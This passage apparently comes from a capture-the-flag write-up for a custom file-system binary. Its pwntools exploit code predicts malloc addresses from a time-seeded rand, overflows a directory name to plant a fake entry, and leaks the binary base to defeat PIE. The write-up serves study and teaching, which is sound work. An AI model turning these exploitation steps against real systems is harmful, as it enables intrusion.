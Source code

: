 ```c
      result = (result + 1);
      *v13 ^= 0x37u;
    }
    while ( v7->size > result );
  }
  return result;
}
```

As you can see the user directory is created with new_dir as a regular directory (with the parent directory = home_entry).

The user_entry address is also the first address returned by malloc.
We can predict it in the following manner:

```python
libc = CDLL('libc.so.6')
libc.srand(int(time.time()))

malloc = lambda : 0x40000000 | (libc.rand() & 0x01fffffff)
user_entry_addr = malloc()
log.info('Predicted user entry @ 0x{:08x}'.format(user_entry_addr))
```

We must do this also for the other addresses returned by malloc that we want to predict simply invoking the malloc lambda in the script the same times as malloc is called in the binary.

The home_entry structure is in `.data`, so we can use the address of the user directory as the fake entry to leak the home_entry address and bypass PIE.

So let’s write a piece of code to leak PIE (using pwntools):

```python
prog = log.progress('Putting fake leak entry')
leak_entry  = p64(0) # parent_directory, don't care
leak_entry += p32(2) # type = FILE_ENTRY
leak_entry += 'leak'.ljust(20, '\x00') # name
leak_entry += p64(8) # size = 8
leak_entry += p64(user_entry_addr) # data = user_entry_addr->parent_directory
# printing the content of leak will print the home_entry address (in .bss)
put_file('leak_entry', leak_entry)
prog.success()

prog = log.progress('Overflowing directory (leak)')
dirname  = 'A' * (20 + 8 + 17*8) # name + size + 17 entry*
dirname += p32(leak_entry_addr) # 18th fake entry
send_cmd('mkdir ' + dirname)
prog.success()

prog = log.progress('Triggering directory reallocation (leak)')
trunc_dirname = 'A'*20 + '\x10' # ls command list the directory with a truced name
send_cmd('cd ' + trunc_dirname)
# the first 17 entries are zeored with memset, we must insert dummy entries to reach the 18th entry
for i in range(17):
    put_file(str(i), 'A')
prog.success()

prog = log.progress('Leaking binary base')
leak = get_file('leak')
base = u64(leak) - 0x208be0
prog.success('@ 0x{:012x}'.format(base))
```

